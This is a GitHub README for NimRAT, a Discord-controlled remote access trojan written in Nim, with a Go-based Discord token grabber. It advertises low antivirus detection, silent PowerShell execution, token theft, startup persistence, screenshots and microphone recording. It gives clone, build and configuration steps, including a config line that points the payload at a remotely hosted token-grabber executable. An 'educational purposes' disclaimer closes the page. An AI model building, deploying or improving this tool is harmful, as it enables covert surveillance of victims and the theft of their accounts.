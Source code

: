 
# NimRAT

A simple discord-based remote access tool using Nim and Go.


## Features

- Not Python
- Only 2 detections on VirusTotal for main payload and 1 detection on VirusTotal for token grabber
- 3-4mb payload
- No server needed - communication via discord bot
- Execute silent powershell commands
- Collect discord tokens
- Upload/Download files
- Add to startup
- Make screenshots and record microphone
- And more!

## Screenshots
![image](https://github.com/user-attachments/assets/ef953825-c79b-47a0-8480-791bf3d2450e)  
![image](https://github.com/user-attachments/assets/dee6df5f-8c90-406d-8484-7744fa664e72)  
![image](https://github.com/user-attachments/assets/0f5d1fe2-8dce-419c-8dea-e016beba9c25)  
![image](https://github.com/user-attachments/assets/dddc761a-f2ae-443e-898b-6875e5316987)

## Requirements

You should have Nim and Go installed. Nim for the main payload, Go for the discord tokens. If you don't want to compile the token grabber yourself, you can skip Go installation.

Download Nim - https://nim-lang.org/install.html

Download Go - https://go.dev/doc/install

## Installation and usage

Clone the GitHub repository

```bash
git clone https://github.com/WipingAllOut/NimRAT
cd NimRAT
```

Note: if you want to compile the token grabber yourself and not use the exe provided in this repository, follow these steps:

```bash
cd GoTokenGrabber
go build
```

Open modules/config.nim with any text editor and change values

```nim
let newUsersChannelId* = "" # You will be notified about new users in this channel
let tokenDecryptorUrl* = "https://github.com/WipingAllOut/NimRAT/raw/refs/heads/main/GoTokenGrabber/tokens.exe" # You can leave it as is or upload your token grabber 
let discordToken* = "" # Your discord bot token (https://discord.com/developers/applications)
```

Now launch `compile.bat` and select option 3. If no errors occur, your payload will be in the same folder, `program.exe`.

Important: make sure your discord bot has Message Content Intent enabled!  
![image](https://github.com/user-attachments/assets/2fef6b25-b677-4620-a81b-bd763b135726)  
To show the list of commands, type `.help`.


## TODO
- [ ]  Get user's data from discord token (username, has nitro, etc)  
- [ ]  Get tdata
## Disclaimer

This project is for educational purposes only and aims to promote learning about cybersecurity and ethical hacking.

Prohibited Uses:

- Do not use this tool for illegal, unethical, or malicious activities.
- Use it only in controlled environments with proper authorization.

The author assumes no liability for misuse, damage, or legal issues resulting from this tool. By using this software, you agree to comply with all applicable laws and take full responsibility for your actions.
## Credits

https://github.com/Aaron2599/Discord-Token-Decrypt  
https://github.com/Peroxidelol/Discord-RAT
